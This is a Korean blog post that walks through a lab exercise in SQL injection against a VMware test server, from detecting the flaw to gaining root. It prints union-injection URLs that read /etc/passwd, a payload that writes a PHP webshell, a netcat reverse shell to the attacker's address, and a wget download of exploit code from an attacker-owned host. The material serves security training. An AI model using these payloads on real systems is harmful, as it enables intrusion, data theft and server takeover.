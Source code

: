 ```yaml
---
title: "Blind SQL 인젝션 공격 실습(SQL Injection Attack)"
categories:
  - Web
tags:
  - Web hacking
  - SQL Injection
  - Blind SQL Injection
  - netcat
  - webshell
comments: true
---
```


SQL Injection 공격 취약점을 이용하여 서버의 root 권한을 획득하는 방법에 대해 기술한다.

> 1. 실습 환경설정
> 2. SQL Injection 취약점 확인 (Blind SQL Injection, Union SQL Injection 이용)
> 3. MYSQL 권한으로, webshell 생성하기
> 4. nc 를 통한 reverse connection
> 5. exploit code 업로드 및 실행을 통한 권한상승


# 1. 실습 환경설정

VMware [Edit]-[Virtual Network Editor]-[VMnet8] 에서 다음과 같이 설정한다.
- Subnet IP : 10.10.10.0
- DHCP Settings - starting ip address : 10.10.10.5
- DHCP Settings - starting ip address : 10.10.10.254

<center><p><img src="/assets/2019-01-28-post-web_sql/1.1.jpg"></p></center>

VMware NAT 방식에서 공격대상과 공격자 IP는 다음과 같다.
- 공격대상 서버의 IP : 10.10.10.10
- 공격자 PC 의 IP : 10.10.10.1
- 공격대상 서버 URL : 10.10.10.10/test/<br>
<center><p><img src="/assets/2019-01-28-post-web_sql/1.2.png"></p></center>
- 서비스 계정(id : test, pw : test)<br>
<center><p><img src="/assets/2019-01-28-post-web_sql/1.3.png"></p></center>

<br>

# 2. SQL Injection 취약점 확인 (Blind SQL Injection, Union SQL Injection 이용)

로그인 이후, FREE BOARD, **USER BOARD(취약점 존재)**, Q&A BOARD, SERVICE BOARD 등 게시판에서 취약점이 있는지 여부를 확인한다.

<center><p><img src="/assets/2019-01-28-post-web_sql/2.png"></p></center>

> 2.1. Blind SQL Injection

```
10.10.10.10/test/board.php?no=1 and 1=1 (TRUE)
10.10.10.10/test/board.php?no=1 and 1=0 (FALSE)
```
위 둘의 URL 실행결과가 다른 것을 통해 SQL Injection 공격 취약점이 존재하는 것을 파악할 수 있다.
```
[10.10.10.10/test/board.php?no=1 and 1=1 결과화면]
```

<center><p><img src="/assets/2019-01-28-post-web_sql/2.1.1.png"></p></center>

```
[10.10.10.10/test/board.php?no=1 and 1=0 결과화면]
```

<center><p><img src="/assets/2019-01-28-post-web_sql/2.1.2.png"></p></center>

> 2.2. Union SQL Injection

2.2.1. 컬럼개수 파악하기

```
http://10.10.10.10/test/board.php?no=0 order by 1 --
http://10.10.10.10/test/board.php?no=0 order by 2 --
~
http://10.10.10.10/test/board.php?no=0 order by 8 -- 까지는 에러가 발생하지 않는다..
http://10.10.10.10/test/board.php?no=0 order by 9 -- 부터 에러가 발생한다.
```
**그러므로, 컬럼은 총 8개이다.**

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.1.png"></p></center>

2.2.2. 각각의 컬럼 위치 확인하기

```
http://10.10.10.10/test/board.php?no=0 union select 1,2,3,4,5,6,7,8 --
```

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.2.png"></p></center>

2.2.3. Title 부분에 계정정보 출력하기

```
http://10.10.10.10/test/board.php?no=0 union select 1, load_file('/etc/passwd'),3,4,5,6,7,8 --
```

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.3.png"></p></center>


# 3. MYSQL 권한으로, webshell 생성하기

> 3.1. MYSQL 권한으로 Webshell 생성

```
http://10.10.10.10/test/board.php?no=0 union select 1,"<?php system($_GET['cmd']); ?>",3,4,5,6,7,8 into outfile "/usr/local/apache/htdocs/test/shell.php" --
```

<center><p><img src="/assets/2019-01-28-post-web_sql/3.1.png"></p></center>

> 3.2. Webshell 동작 확인

```
http://10.10.10.10/test/shell.php?cmd=ls
```
<center><p><img src="/assets/2019-01-28-post-web_sql/3.2.1.png"></p></center>

```
http://10.10.10.10/test/shell.php?cmd=ls  (nobody 권한인 것을 확인할 수 있다.)
```

<center><p><img src="/assets/2019-01-28-post-web_sql/3.2.2.png"></p></center>


# 4. nc 를 통한 reverse connection

> 4.1. 공격자 PC 에서 nc 실행 후, 응답대기

cmd 창 2개 생성
- `cmd_1` : nc -l -p 33333<br>
nc 프로그램이 33333 번 포트로 응답대기(33333번 포트는 임의로 설정)
- `cmd_2` : netstat -na<br>
33333 포트가 응답대기인지 확인(프로그램이 제대로 실행되었는지 확인)

<center><p><img src="/assets/2019-01-28-post-web_sql/4.1.1.png"></p></center>
<center><p><img src="/assets/2019-01-28-post-web_sql/4.1.2.png"></p></center>


> 4.2. Web 에서 nc 실행하여, 공격 대상 서버 -> 공격자 PC 로 연결 (reverse connection)

```
10.10.10.10/test/shell.php?cmd=nc -e /bin/sh 10.10.10.1 33333
(10.10.10.1 은 공격자 PC ip 주소)
```

다음과 같이 탭에서 계속 돌고 있는 상황이면 정상적으로 실행이 된 것이다.

<center><p><img src="/assets/2019-01-28-post-web_sql/4.2.png"></p></center>

> 4.3. 연결확인

`cmd_1` : id (계정정보 확인)

<center><p><img src="/assets/2019-01-28-post-web_sql/4.3.png"></p></center>


# 5. exploit code 업로드 및 실행을 통한 권한상승

> 5.1. wget 을 통한 익스플로잇 코드 업로드

공격자 소유의 서버(10.10.10.20)에 있는 exploit code 를, 공격대상이 되는 서버에서 다운로드 하도록 한다. 

```
10.10.10.10/test/shell.php?cmd=wget http://10.10.10.20/exp.c
```

<center><p><img src="/assets/2019-01-28-post-web_sql/5.1.png"></p></center>


> 5.2. Webshell 에서 exp.c 다운로드 확인

```
10.10.10.10/test/shell.php?cmd=ls -al
```

<center><p><img src="/assets/2019-01-28-post-web_sql/5.2.png"></p></center>

> 5.3. NC 를 통해 (cmd_1)에서 확인

<center><p><img src="/assets/2019-01-28-post-web_sql/5.3.png"></p></center>

> 5.4. exploit code 컴파일 후 실행을 통한 권한상승

5.4.1. `gcc -o exp exp.c`

<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.1.png"></p></center>

5.4.2. `ls -al`

<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.2.png"></p></center>

5.4.3. `./exp  ,  id`

<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.3.png"></p></center>

<br>

{% if page.comments %}

<div id="disqus_thread"></div>
<script>

/**
*  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
*  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables*/
/*
var disqus_config = function () {
this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
*/
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://https-c0msherl0ck-github-io.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
                            
{% endif %}
